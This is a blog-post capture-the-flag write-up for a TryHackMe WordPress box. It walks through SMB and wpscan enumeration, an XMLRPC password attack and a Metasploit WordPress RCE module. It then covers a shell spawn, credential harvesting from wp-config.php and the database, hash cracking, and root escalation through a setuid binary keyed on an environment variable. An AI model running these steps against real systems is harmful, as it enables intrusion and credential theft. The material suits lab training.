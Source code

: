 ```yaml
---
layout: post
title:  "THM - Billy Joel made a Wordpress blog!"
date:   2020-07-14 18:00:00 +1000
category: hacking
---
```


## Introduction
**NOTE**. As far as I'm aware, THM doesn't state that you *can't* post writeups for new boxes, but in this case there are no published write-ups on the site itself. So this is a somewhat redacted version. I'll post the normal version as soon as someone else posts a writeup.

*Billy Joel made a blog on his home computer and has started working on it.  It's going to be so awesome!*

*Enumerate this box and find the 2 flags that are hiding on it!  Billy has some weird things going on his laptop.  Can you maneuver around and get what you need?  Or will you fall down the rabbit hole....*  

This is another medium rated box. 

## Ports
nmap says we've got 22 (SSH), 80 (HTTP) plus 139 and 445 (SMB).

## SMB
We can enumerate the shares with smbclient and then login to the *BillySMB* share, from where we can retrieve a PNG image of a QR code, an MP4 and a JPEG of the White Rabbit from Alice in Wonderland. The QR code leads to a Billy Joel YouTube video and the JPEG can be popped open with steghide to reveal a message advising it is a rabbit hole. The video is a Taylor Swift song interwoven with a goat bleating. 

Let's put aside the contents of the SMB share for now.

## Website
Firstly we add blog.thm to /etc/hosts. This may not be necessary but I usually do it anyway.

The website makes it pretty obvious it's running WordPress, so we'll run wpscan:

``
root@kali:/opt/tryhackme/blog# wpscan --url http://blog.thm -e -v
``

From this we get two usernames ([redacted] and [redacted]), and learn that XMLRPC is open. There is an authenticated RCE vulnerability in this version of Wordpress, but we'll need some credentials so an XMLRPC password attack seems a reasonable course of action.

Wpscan can do the XMLRPC attack, but I used Burp Turbo Intruder. Doing we, so obtain the password *[redacted]* for user *[redacted]*.

## Metasploit
There is a metasploit module we can use to run the exploit, which is 

``
msf5 exploit(multi/http/wp_crop_rce) > 
``

Once I'm in I just drop into shell and spawn bash:

``
python3 -c 'import pty;pty.spawn("/bin/bash");'
``

We can find the database credentials in wp-config.php:
>/ MySQL database username /  
define('DB_USER', 'wordpressuser');  
/ MySQL database password /  
define('DB_PASSWORD', '[redacted]');  

And then we can log into the database:

``
www-data@blog:/dev/shm$ mysql --host=127.0.0.1 --port 3306 -u wordpressuser -p
``
>Enter password: [redacted]  
Welcome to the MySQL monitor.  Commands end with ; or \g.  
Your MySQL connection id is 38102  
Server version: 5.7.30-0ubuntu0.18.04.1 (Ubuntu)  

## Database

Once we are in, we can get the hashed passwords:
>mqsql> show databases;  
mysql> use blog;  
mysql> show tables;  
mysql> select * from wp_users;  
select * from wp_users;  

For [redacted]:

``
$P$*******************************
`` 

and for [redacted]:

``
$P$*******************************
``

Hashcat happily cracks *[redacted]* for [redacted], but won't do the *[redacted]* hash with rockyou and best64 rules, so presumably we need to look elsewhere.

## Elsewhere

With some enumeration (via linenum.sh or otherwise) we can find a slightly unusual binary: [redacted]

Running this binary we get the message 'Not an admin'. Curious. We can download the file and trivially dissamble it with Ghidra, which reveals the following:

{% highlight c %}
int main(void) {
  char *isAdmin;
  isAdmin = getenv("admin");
  if (isAdmin == (char *)0x0) {
    puts("Not an Admin");
  } else {
    setuid(0);
    system("/bin/bash");
  }
  return 0;
}
{% endhighlight %}

Essentially if the environment variable 'admin' exists and is not zero, we will get a root shell. 

## So let's do that then

It's fairly simple:

{% highlight shell %}
www-data@blog:/$ admin=1 // to set the value  
www-data@blog:/$ echo $admin // to check it worked okay  
www-data@blog:/$ export admin // to set it as an environment variable  
www-data@blog:/$ printenv // to make sure *that* worked  
{% endhighlight %}

And that's it. Now run 

``
www-data@blog:/$ [redacted]
``

And we get:

``
root@blog:/#
``

And we can retrieve the flags.


